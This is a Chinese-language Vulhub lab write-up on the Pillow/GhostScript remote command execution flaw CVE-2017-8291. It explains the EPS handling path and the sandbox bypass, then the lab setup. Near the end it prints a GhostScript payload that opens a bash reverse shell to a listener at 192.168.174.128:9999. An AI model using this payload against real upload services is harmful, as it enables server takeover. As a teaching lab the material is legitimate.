 # Python PIL 远程命令执行漏洞 CVE-2017-8291

## 漏洞描述

Python中处理图片的模块PIL（Pillow），因为其内部调用了GhostScript而受到GhostButt漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

参考阅读：

- http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/

## 漏洞原理

PIL内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个eps文件（头为`%!PS`），则分发给`PIL/EpsImagePlugin.py`处理。

在这个模块中，PIL调用了系统的gs命令，也就是GhostScript来处理图片文件：

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

虽然设置了`-dSAFER`，也就是安全模式，但因为GhostScript的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。

另外，截至目前，GhostScript官方最新版9.21仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了GhostScript，我们的PIL就存在命令执行漏洞。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞复现

正常功能是我们上传一个PNG文件，后端调用PIL加载图片，输出长宽。但我们可以将可执行命令EPS文件后缀改成PNG进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。

比如[poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)，进行上传，即可执行`touch /tmp/awesome_poc`。

![image-20220228145248709](images/202202281452756.png)

将`touch /tmp/awesome_poc`命令改为反弹shell命令：

```
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
```

成功接收反弹shell：

![image-20220228162022990](images/202202281620079.png)
